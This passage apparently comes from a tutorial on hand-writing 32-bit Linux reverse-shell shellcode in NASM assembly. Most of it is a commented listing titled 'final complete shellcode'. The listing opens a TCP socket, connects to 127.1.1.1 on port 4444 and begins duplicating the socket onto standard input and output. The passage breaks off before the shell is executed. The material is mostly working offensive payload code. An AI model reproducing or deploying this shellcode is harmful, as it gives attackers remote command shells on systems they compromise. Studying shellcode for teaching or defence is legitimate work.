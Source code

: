 As you can see, we need to push the terminating `NULL` for the `/bin//sh` string seperately onto the stack, because there isn't already one to use.    

So we are done.       

### final complete shellcode

My complete, commented shellcode:
```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd
```